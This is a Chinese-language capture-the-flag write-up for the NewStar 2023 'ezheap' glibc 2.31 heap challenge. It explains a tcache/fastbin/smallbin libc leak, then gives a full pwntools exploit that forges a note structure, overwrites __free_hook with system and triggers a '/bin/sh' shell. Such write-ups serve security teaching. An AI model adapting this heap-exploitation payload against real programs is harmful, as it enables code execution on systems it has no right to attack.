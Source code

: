 ```yaml
---
title: newstar2023 week4 - ezheap
date: 2023/10/18 12:00:00
tags:
    - heap - fastbin
    - libc2.31
---
```


## 文件分析

下载`ezheap`, 保护全开  
ghidra分析为64位程序

## 解题思路

是一个note录入程序，很明显是堆题

libc是2.31，有tcache，有tcache校验，不方便double free；hook还在，考虑利用

tcathe能存7个相同size的chunk，先消耗掉，就可以把接下去分配的chunk放到
fastbin 里，然后通过分配大chunk来把fastbin里的chunk扫到smallbin里，
smallbin里就有libc，拿到libcBase就可以求偏移改hook，调system

这道题的限制:  
notebook有限，可以通过分配与note结构一样大的 "字符串"
来快速消耗tcache；  
edit函数检验了note的首项，如果不经修改，就是fd，
无法成功利用，需要先伪造note结构通过检验，还要把字符串地址改为freeHook，
就能把system写进freeHook里；  
freeHook还不在debug符号里，需要自己推出来

## EXPLOIT

```python
from pwn import *
lo = 1

if lo:
    sh = process('ezheap')
    gdb.attach(sh)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')
else:
    sh = remote('node4.buuoj.cn', 25961)
    libc = ELF('libc-2.31.so')

def addn(idx:int, size:int, note:bytes=b'what'):
    sh.recvuntil(b'>>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'size')
    sh.sendline(str(size).encode())
    sh.recvuntil(b'note')
    sh.sendline(note)

def deln(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def show(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'3')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def edit(idx:int, note:bytes):
    sh.recvuntil(b'>>')
    sh.sendline(b'4')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(note)

addn(0, 64)
addn(1, 64)
addn(2, 64)
addn(3, 64)
addn(4, 64)
addn(5, 64)
addn(6, 64)
addn(7, 64)
addn(8, 64)
deln(6)
deln(5)
deln(4)
deln(3)
deln(2)
deln(1)
deln(0)
deln(8)
deln(7)
"""
bins now:
inuse: (size 0x51) 0 ~ 8
tcache: head -> 0 -> 1 -> 2 -> 3 -> 4 -> 5 -> 6 (full)
fastbin: head -> 7 -> 8
"""

addn(9, 1024)       #0 huge chunk to trigger malloc consolidate
"""
bins now:
inuse: ...
tcache: head -> 1 -> 2 -> 3 -> 4 -> 5 -> 6
small bins: head <-> 7 <-> 8 <-> tail
"""
addn(10, 64)        #1
addn(11, 32)        #2, 3 alloc 0x20 unit to consume bins quickly
addn(12, 32)        #4, 5
addn(13, 32, b'\n') #6, 8 FIFO; '\n' to avoid writing on fd
edit(13, b'')       # write a '\n' in the end (will be amended below)
show(13)            # chunk 8 in small bins, fd is libc addr

sh.recvuntil(b'(0~15): \n') # skip

# find offset first
dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
print('main_arena in libc:', hex(dumpArena))

# read and shift addr to libcBase
mainArena = u64(sh.recv(6) + b'\0\0') - 0x0a - 0x80 # sub '\n' & small bin offset
print('main_arena  actual:', hex(mainArena))
libcBase = mainArena - dumpArena
freeHook = libcBase + libc.symbols['__free_hook']
systemAddr = libcBase + libc.symbols['system']

edit(11, p64(64) + b'0'*0x10 + p64(freeHook)) # forge notebook[3], notebook[3] -> str = freeHook
edit(12, b'/bin/sh\0')                        # forge notebook[5] as the arg of system
edit(3, p64(systemAddr))                      # notebook[3] -> size == sizes[3] => *freeHook = systemAddr
deln(5)                                       # trigger freeHook

sh.interactive()
```

Done.
